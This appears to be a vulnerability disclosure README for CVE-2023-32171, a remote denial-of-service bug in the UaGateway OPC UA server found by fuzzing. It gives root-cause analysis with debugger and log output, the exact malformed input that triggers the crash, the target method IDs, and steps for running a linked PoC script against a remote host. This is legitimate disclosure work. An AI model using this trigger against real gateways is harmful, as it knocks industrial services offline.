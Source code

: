# CVE-2023-32171 (Pwn2Own Miami 2023 entry): Null Pointer Dereference Denial-of-Service Vulnerability

<p align='center'>
<img src='../pics/CVE-2023-32171.png'>
</p>

## High-level overview
The vulnerability is a NULL pointer dereference when parsing an attacker-provided broken XML string via the method `TagFile.ImportCsv` which is invokable by any authenticated users (anonymous is fine). This leads to crashing the service (temporary DoS). This bug was discovered with [wtf](https://github.com/0vercl0k/wtf) by fuzzing the internal XML parsing code.

<p align='center'>
<img src='../pics/CVE-2023-32171.gif'>
</p>

## Root Cause Analysis

The issue exploited is a NULL pointer dereference that happens when passing a broken XML string to one of the method that users can invoke to import data structures into the namespace. This is documented in [Tag File Import Formats](https://documentation.unified-automation.com/uagateway/1.5.1/html/tagfile_import_format.html).

The object is available in *Objects* > *DeviceSet* > *Tag File* > *MethodSet* (`ns=1;s=TagFile.MethodSet`) and the method is called *TagFile.ImportCsv* (`ns=1;s=TagFile.ImportCsv`).

<p align='center'>
<img src='../pics/method.png'/>
</p>

This the crash that you should observe when attaching to `uagateway.exe`:
```
0:050> g
(12dc.238c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
uagateway+0x7b1540:
00bb1540 8a0a            mov     cl,byte ptr [edx]          ds:002b:00000000=??

0:044:x86> kp
 # ChildEBP RetAddr  
WARNING: Stack unwind information not available. Following frames may be wrong.
00 00000000 00000000 uagateway+0x7b1540
```

`@edx` is supposed to be a string pointer, but is NULL which leads to the crash. By turning on the log we can see interesting information:
```
05:06:08.734Z|4|1920* ==> UaServer::Call [Request=5]
05:06:08.734Z|6|1920* --> UaSession::startingServiceProcessing [ID=-1780890077]
05:06:08.749Z|6|1920* <-- UaSession::startingServiceProcessing - activeServiceCount = 1
05:06:08.765Z|6|1920* --> UaTransactionManager::beginMethodCall with 1 calls
05:06:08.765Z|6|1920* --> UaTransactionManager::executeMethodCall with 1 calls
05:06:08.781Z|7|1920* Call Request:
05:06:08.796Z|7|1920*   NoOfMethodsToCall = 1
05:06:08.796Z|7|1920*     Method 0:
05:06:08.812Z|7|1920*       ObjectId = NS1|String|TagFile.MethodSet
05:06:08.812Z|7|1920*       MethodId = NS1|String|TagFile.ImportCsv
05:06:08.827Z|7|1920*       NoOfInputArguments = 1
05:06:08.827Z|6|0424* <-- IOManagerUaNode::finishTransaction [ret=0x0]
05:06:08.843Z|7|1920*         InputArgument[0] = 3C 4E 61 6D 65 73 70 61 63 65 49 6E 64 65 78 3E 3B 3C 4E 61 6D 65 73 70 61 63 65 55 72 69 3E 0A 30 3B 68 74 74 70 3A 2F 2F 75 6E 69 66 69 65 64 61 75 74 6F 6D 61 74 69 6F 6E 2E 63 6F 6D 2F 54 61 67 46 69 6C 65 2F 0A 3C 4E 6F 64 65 43 6C 61 73 73 3E 3B 3C 4C 65 76 65 6C 3E 3B 3C 4E 61 6D 65 3E 3B 3C 54 79 70 65 44 65 66 3E 3B 3C 50 72 6F 74 6F 63 6F 6C 3E 3B 3C 41 64 64 72 65 73 73 3E 3B 3C 41 63 63 65 73 73 4C 65 76 65 6C 3E 0A 56 3B 31 3B 3B 3B 3B 55 49 6E 74 33 32 2E 31 2E 34 3D 7B 27 38 38 27 2C 27 2C 27 37 37 27 36 36 27 2C 27 35 35 27 7D 3B 52
05:06:08.843Z|6|1920* --> TagFileModuleType::ImportCsv
05:06:08.859Z|6|1920* --> ModuleTagFile::importCsv
05:06:08.874Z|6|1920* --> TagFileCsvParser::parserCSV
05:06:08.890Z|6|1920* --> TagFile::createInstanceNode nodeId=ns=1;s=
05:06:08.890Z|1|1920* TagFile::createInstanceNode - pBaseNode == 0
05:06:08.906Z|6|1920* <-- TagFile::createInstanceNode

(b24.1920): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
uagateway+0x7b1540:
00bb1540 8a0a            mov     cl,byte ptr [edx]          ds:002b:00000000=??
```

`TagFileCsvParser::parserCSV` is at `00429210` and it basically parses the input string line by line. The logic is pretty complex and tedious to reverse-engineer. Instead, while minimizing the input testcase, I noticed that the crucial part is the following: `UInt32.1.4={'88',','77'66','55'}`.

## PoC
- Simulate a client connected to the server using [UaExpert](https://www.unified-automation.com/products/development-tools/uaexpert.html) like in the above
- Install `opcua-asyncio` with `$ pip3 install asyncua`
- Run the [CVE-2023-32171-UaGateway-RemoteDoS.py](./CVE-2023-32171-UaGateway-RemoteDoS.py) script, use `--target` for the IP of the remote server, `--port` for the port
- The connected client should timeout and shouldn't be able to reconnect, the `uagateway.exe` process shouldn't be running as it crashed
